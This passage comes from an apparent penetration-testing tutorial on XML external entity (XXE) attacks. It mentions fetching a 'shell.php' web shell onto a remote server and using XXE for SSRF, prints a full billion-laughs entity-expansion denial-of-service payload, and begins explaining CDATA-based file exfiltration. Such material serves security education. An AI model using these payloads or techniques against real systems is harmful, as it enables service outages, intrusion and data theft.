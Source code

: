 Once we send the request, we should receive a request on our machine for the `shell.php` file, after which we can interact with the web shell on the remote server for code execution.
>[!Important]
The `expect` module is not enabled/installed by default on modern PHP servers. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.
### Other XXE Attacks
Another common attack often carried out through XXE vulnerabilities is **SSRF** exploitation, which is used to enumerate locally open ports and access their pages, among other restricted web pages, through the XXE vulnerability.

Finally, one common use is a **Denial of Service** (DOS) to the hosting web server, with the use the following payload:
```php
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
This payload defines the `a0` entity as `DOS`, references it in `a1` multiple times, references `a1` in `a2`, and so on until the back-end server's memory runs out due to the **self-reference loops**. However, this attack no longer works with modern web servers (i.e. **Apache**), as they protect against entity self-reference. 
## Advanced File Disclosure
Not all XXE vulnerabilities may be straightforward to exploit. Some file formats may not be readable through basic XXE, while in other cases, the web app may not output any input values in some instances, so we may try to force it through errors.
### Advanced Exfiltration with CDATA
Earlier, we saw how we could use PHP filters to encode PHP source files so we could read them. But what about other types of Web Apps? 

We can utilize another method to extract any kind of data (including binary data) for any web app backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a ``CDATA`` tag (i.e. ``<![CDATA[ FILE_CONTENT ]]>``). 
